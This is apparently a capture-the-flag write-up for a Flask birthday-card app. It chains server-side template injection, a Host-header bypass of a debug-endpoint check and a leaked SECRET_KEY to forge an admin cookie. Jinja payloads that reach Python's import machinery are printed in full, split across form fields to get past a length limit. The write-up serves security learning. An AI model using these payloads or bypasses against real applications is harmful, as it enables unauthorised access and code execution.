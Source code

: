 # Birthday Card Generator - CTF Challenge Writeup

## Challenge Description

This challenge presents a web application that generates personalized birthday cards. At first glance, it seems like a simple application, but it contains multiple vulnerabilities that we need to chain together to capture the flag. The application is built using Flask, a Python web framework.

## Overview of the Application

The application has several key features:
1. User registration and login system
2. Birthday card generator(with maxlength restrictions)
3. Debug endpoints (supposedly for development)
4. An admin report page containing the flag

## Vulnerability Analysis

Let's break down the main vulnerabilities we find in this application:

1. Server-Side Template Injection (SSTI) in the card generator
2. Information disclosure through debug endpoints
3. Weak access control for debug endpoints
4. Authentication bypass potential in the admin report endpoint

## Step-by-Step Exploitation

### Step 1: Initial Reconnaissance

First, let's explore the application's endpoints:

1. `/` - Birthday card generator
2. `/debug/test` - Debug endpoints
3. `/admin/report` - Admin page containing the flag

Let's start by creating an account:

```http
POST /register
Content-Type: application/x-www-form-urlencoded

username=hacker&password=test123
```

### Step 2: Discovering the SSTI Vulnerability

The card generator endpoint `/` takes a recipient's name and displays it in a template. Looking at the code:

```python
template = f"""
    <link rel="stylesheet" href="static/style.css">
    <h1>Your Personalized Card</h1>
    <div class="card">
        <h2>From: {sender}</h2>
        <h2>To: {recipient}</h2>
        <p>{message}</p>
        <h1>{final_message}</h1>
    </div>
    <br>
    <a href="/">Create Another Card</a>
            """
return render_template_string(template)
```

This is vulnerable to Server-Side Template Injection because it uses `render_template_string()` with user input.

To test for SSTI, we can try:
```
Recipient: {{7*7}}
```

If you see `49` in the output instead of `{{7*7}}`, we've confirmed the SSTI vulnerability!

### Step 3: Exploiting Debug Endpoints

The interesting part about the debug endpoints is this check:
```python
if host != "localhost:3030":
    return "Access restricted to localhost:3030"
```

We can bypass this by adding a custom Host header:
```http
POST /debug/test
Host: localhost:3030
```

The logs contain the `SECRET_KEY` which we'll need to confirm that whether its the same key shown in the config!

```{{config}}```
should show us the SECRET_KEY as well

### Step 4: Advanced SSTI Exploitation

Now that we've confirmed SSTI, we can use more advanced payloads.The problem here is, if we try use the inbuilt functions it wont work in jinja by default, but we can see that builtin functions made global using the _TemplateSecurityManager class.


Now payloads can:
1. Accesses Flask's request object
2. Gets to Python's built-in functions
3. Imports the 'os' module
4. Executes commands

### Step 5: Getting the Admin Cookie

Looking at the `/admin/report` endpoint:
```python
token, signature = auth_cookie.rsplit(".", 1)
from signer import init_signer
signer = init_signer(SECRET_KEY)
sign_token_function = signer.get_signer_function()
valid_signature = sign_token_function(token)
```

We need to:
1. Create a token with value "admin"
2. Import the class init_signer from the signer module dynamically in the runtime
3. Sign it with the SECRET_KEY we found using the sign_token_function
4. Combine them as `admin.<signature>`

Using SSTI, we can craft a payload to sign our token by accessing the builtin function from validator:

first we need to find the index of the validator class as they have the builtins module, which is used to import the modules outside

```
''.__class__.__mro__[1].__subclasses__()
```
Once we got the index proceed to craft the payload to sign our token.
```
{{ ''.__class__.__mro__[1].__subclasses__()[INDEX].security().__import__('signer').init_signer('super_secret_key').get_signer_function()('admin') }}
```
But the problem here is we can't our payload length more than 50.
so we have to break our payload and use all the inputs to connect each payloads one and other, and finally sign the token

```
sender : {%set a=''.__class__.__mro__[1].__subclasses__()%}
recipient : {%set b=a[-1].security().__import__%}
message : {%set c=b('app.sign',{},{}, ['initFn']).initFn%}
final_message : {{c(config.SECRET_KEY).get_signer()('admin')}}
```

### Step 5: Getting the Flag

With our signed admin token, we can make the final request:

```http
GET /admin/report
Cookie: session=admin.<signature_from_step_4>
```

And we get our flag: `p_ctf{S3rVer_STI_G0es_hArd}`

## Tools Used
- Web browser
- Burp Suite or similar proxy (for manipulating requests)
- Python (for crafting payloads)